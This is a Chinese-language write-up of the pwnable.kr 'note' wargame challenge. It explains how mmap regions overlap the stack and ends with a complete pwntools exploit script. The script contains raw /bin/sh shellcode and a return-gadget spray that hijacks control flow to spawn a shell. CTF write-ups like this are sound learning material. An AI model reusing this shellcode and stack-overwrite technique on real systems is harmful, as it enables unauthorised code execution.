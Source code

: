 # pwnable.kr "note"

select_menu 里面有个一字节的溢出，可以覆盖 menu 的最低位，暂时看起来还没法利用。

最终目的是 getshell，aslr 没有开启，可以通过 rop的方式，或者自己构造shellcode 的方式。目前来看是在 mmap 的区域中写入 shellcode，然后执行。

在 fuzz 的时候我不断的 delete_note 和 create_note，发现最后总是会崩溃，gdb 调试发现崩溃的原因经常是执行到 scanf 或者 printf 这样的库函数里面，库函数里面的指令被修改了，库函数里面有大片的空间全部被0覆盖。

查看 MAP_FIXED 的定义我们可以看到这样一段描述

```s
MAP_FIXED
              If the memory region  specified
              by  addr  and  len  overlaps pages of any existing
              mapping(s), then the overlapped part of the exist‐
              ing  mapping(s)  will be discarded.  
```

说明 mmap 的地址 overlap 了 libc，然后 libc 的区域就被丢弃了，并且初始化为0.

mmap_s 返回的地址是有可能 overlap 到 libc 的区域的，是不是可以覆盖了 libc 的区域，然后往里面重写东西呢。

select_menu 这个函数是递归调用的，如果疯狂调用这个函数，栈就会不断地往低地址增长，如果设置栈大小是 unlimited，是不是有可能让栈和 mmap 的区域相邻呢？

尝试了下好像这个思路也不行啊，栈确实会往下不断增长，栈底但是会和最上方的 mmap 区域保持至少一个 PAGE_SIZE 的距离，再往下的话就会导致 segment fault，而不是想象中的栈的虚拟地址空间继续变大。

那个 select_menu 的 secret 选项有可能是误导，目前来看主要用处就是布置 rop 吧

一个 select_menu 的栈帧是1072个字节

第一个 select_menu 的返回地址是0xffffcffc

问了 himyth，可以先疯狂增栈，然后 mmap 到栈中，覆盖返回地址！之前怎么就没想到呢，既然可以覆盖 libc，那当然也可以覆盖栈啊！

本地利用成功，远程利用还没成功。

在远程机子上用 gdb 调试 note，vmmap 看了一下栈的地址，和本地的一模一样。本地 gdb 调试下的栈地址和非 gdb 调试下的栈地址是一样的，于是推测远程机子上的 note 程序运行时的栈地址应该也是一样的。

换了个 shellcode 在远程上试，还是不行。最后发现是第一个 select_menu 的ret addr 在栈上所处的位置不一样。后来换了个想法直接在 mmap 区域铺满0x80484c7, 这个地址存放了 ret 指令，然后在最后四个字节放上 shellcode 的地址。这样无论栈怎么变化，最后递归返回的时候肯定能返回到 shellcode 去。



# 技巧

1. gdb 发生 segment fault 的时候可以通过 backtrace 查看程序的调用链，并且通过 up 和 down 命令在调用链上跳跃（up、down 后面可以加上数字）
2. 需要暴力破解的程序可以尝试下面一段代码

```python
p = process('./'+_program)
while True:
    try:
        p.recvall(timeout=2)
        p.recv(timeout=2)	#这里用 p.interactive()无法 catch 到 EOFError
    except EOFError:
        print "[!]EOF error"
        p.close()
        p = process('./'+_program)
        continue
    break
```



下面是 exp

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
""" dddong / AAA """

from pwn import *
import sys, os, re
context(arch='i386', os='linux', log_level='debug')
context(terminal=['gnome-terminal', '-x', 'bash', '-c'])

_pwn_remote = 1

PAGE_SIZE = 4096

def read_note(note_no):
    #p.sendlineafter("exit\n", "3")
    #p.sendlineafter("note no?\n", str(note_no))
    p.sendline("3")
    p.sendline(str(note_no))
    #print "no ", str(note_no), " content:\n"
    #p.recvuntil("\n")
    
def create_note():
    p.sendlineafter("exit\n", "1")
    note_no = int(p.recvline().split(" ")[-1])
    p.recvuntil("[")
    note_addr = int(p.recv(8), 16)
    return (note_no, note_addr)

def delete_note(note_no):
    p.sendlineafter("exit\n", "4")
    p.sendlineafter("note no?\n", str(note_no))

def write_note(note_no, content):
    p.sendlineafter("exit\n", "2")
    p.sendlineafter("note no?\n", str(note_no))
    p.sendlineafter("4096 byte)\n", content)
    

_program = 'note' 
_debug = int(sys.argv[1]) if len(sys.argv) > 1 else 0

elf = ELF('./' + _program)

if _pwn_remote == 0:
    libc = ELF('./libc.so.6')
    p = process('./' + _program)

    if _debug != 0:
        if elf.pie:
            _bps = [] #breakpoints defined by yourself, not absolute addr, but offset addr of the program's base addr 
            _offset = __get_base(p, os.path.abspath(p.executable))
            _source = '\n'.join(['b*%d' % (_offset + _) for _ in _bps])
        else:
            _source = 'source peda-session-%s.txt' % _program
        gdb.attach(p.proc.pid, execute=_source)
else:
    _ssh = ssh('note','pwnable.kr', 2222, 'guest')
    p = _ssh.process(['nc','0','9019'])

#shellcode = asm(shellcraft.i386.linux.sh())
shellcode = "\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68"

ret = 0x80484c7
#write shellcode in the chunk 0
ck_sc_no, ck_sc_addr = create_note()
write_note(0, shellcode)

#increase the stack
for _ in xrange(7500):
    print _
    read_note(300)

write_note(0, shellcode)

stack_btm = 0xff80c000

flag = 0
for i in xrange(254):
    ck_no, ck_addr = create_note()
    if ck_addr >= stack_btm:
        flag = 1
        print "chunk overlap with the stack!deadbeef!"
        break

if flag == 0:
    print "fail to overlap with the stack"
    sys.exit(1)

#sel_menu_fsz = 1072
#pret_addr1 = 0xffffdc2c

#npadding = (pret_addr1 - (pret_addr1 - ck_addr) / sel_menu_fsz * sel_menu_fsz - ck_addr)
    
#print "overwrite ret addr in:", hex(ck_addr+npadding)
write_note(ck_no, p32(ret) * (PAGE_SIZE/4-1)+ p32(ck_sc_addr))
        
p.sendline("5")
p.recvrepeat(0.5)
p.interactive()

#需要通过暴力破解的程序可以尝试下面一段代码
"""
p = process('./'+_program)
while True:
    try:
        p.recvall(timeout=2)
        p.recv(timeout=2)
    except EOFError:
        print "[!]EOF error"
        p.close()
        p = process('./'+_program)
        continue
    break
"""

```

